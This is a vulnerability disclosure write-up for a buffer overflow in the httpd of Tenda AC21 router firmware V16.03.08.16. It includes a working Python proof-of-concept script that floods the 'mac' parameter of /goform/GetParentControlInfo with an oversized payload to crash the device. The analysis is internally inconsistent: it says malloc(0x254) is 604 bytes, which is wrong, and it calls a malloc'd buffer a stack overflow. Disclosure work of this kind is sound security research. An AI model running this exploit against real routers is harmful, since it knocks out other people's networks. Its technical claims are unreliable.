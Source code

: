 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC21（AC21V1.0re_V16.03.08.16）
## Overview
There is a stack-based buffer overflow vulnerability in the Tenda Wi-Fi 5 Router AC21 device running the firmware version AC21V1.0re_V16.03.08.16. Due to the lack of restrictions on certain parameters in the GetParentControlInfo function and the absence of boundary checks, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint: `/goform/GetParentControlInfo` `sub_433BE4` `formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC21 device
+ **Affected Version**: AC21V1.0re_V16.03.08.16
+ **Attack Vector**: Exploit functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow
+ **Impact**:
    - Denial of Service (Dos)
+ **Affected Component**: /goform/GetParentControlInfo, sub_433BE4, formDefineTendDa
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/3742](https://www.tenda.com.cn/material/show/3742)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin). The following call chain exists in the squashfs-root/bin/httpd file:  
main → sub_433BE4 → formDefineTendDa → GetParentControlInfo

![main调用](AC21V1.0re_V16.03.08.16.assets/main调用.png)

![formDefineTenda1](AC21V1.0re_V16.03.08.16.assets/formDefineTenda1.png)

![formDefineTenda2](AC21V1.0re_V16.03.08.16.assets/formDefineTenda2.png)

s is a buffer allocated via malloc(0x254u), with a size of 0x254 bytes and initialized to all 0s. The target address is s + 2, meaning data copying starts from the 3rd byte of s, and the remaining available space is 604 - 2 = 602 bytes. Var is the external input obtained via websGetVar(a1, "mac", &unk_4D999C) (it is the value of the user-controllable "mac" parameter). strcpy will continuously copy characters from Var until encountering \0, without verifying at all whether the target buffer can accommodate all the data. As external input, the length of Var may exceed 602 bytes.

![溢出点](AC21V1.0re_V16.03.08.16.assets/溢出点.png)

Therefore, carefully designing a payload at the interface path /goform/GetParentControlInfo can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 512000
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.190.239/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use qemu to emulate the httpd extracted from US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin (note that this file is for the mips little-endian architecture, and IDA needs to be used to modify httpd to adapt to the emulation environment).

![patch](AC21V1.0re_V16.03.08.16.assets/patch.png)

As shown in the figure below, the emulation is successful.

![payload$仿真](AC21V1.0re_V16.03.08.16.assets/payload$仿真.png)

Use this script to trigger the stack overflow.

![触发](AC21V1.0re_V16.03.08.16.assets/触发.png)

#### Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint. 
